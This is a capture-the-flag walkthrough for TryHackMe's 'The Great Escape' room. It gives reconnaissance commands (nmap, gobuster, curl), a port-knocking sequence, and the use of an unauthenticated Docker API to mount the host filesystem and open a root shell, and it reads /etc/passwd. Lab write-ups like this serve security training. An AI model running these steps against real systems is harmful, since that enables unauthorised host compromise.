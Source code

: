 # The Great Escape

**Room Link:** [https://tryhackme.com/r/room/thegreatescape](https://tryhackme.com/r/room/thegreatescape)



## Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP <a href="#tcp-8080-http" id="tcp-8080-http"></a>

Its returning too much from 200 so we need to filter it out

**Kali**

```
gobuster -e dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Had to add .well-known to the wordlist, wasn't in any of Tryhackme's default wordlists

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirb/common.txt  --wildcard  -s"204,301,302,307,401,403"
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

None of this was working, try later.

**Kali**

```
dirb http://$VICTIM/.well-known -X .txt
```

**Kali**

```
curl http://$VICTIM/.well-known/security.txt
```

**Kali**

```
curl http://$VICTIM/api/fl46
```

**Kali**

```
curl http://$VICTIM/robots.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (865).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock $VICTIM 42 1337 10420 6969 63000
nmap $VICTIM -p 2375
```

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/docker/daemon.json
```

**daemon.json**

```
{
  "insecure-registries" : ["10.10.90.88:2375"]
}
```

**Kali**

```
sudo systemctl stop docker
```

Wait 30 seconds

**Kali**

```
sudo systemctl start docker
```

**Kali**

```
docker -H $VICTIM:2375 images
docker -H $VICTIM:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>





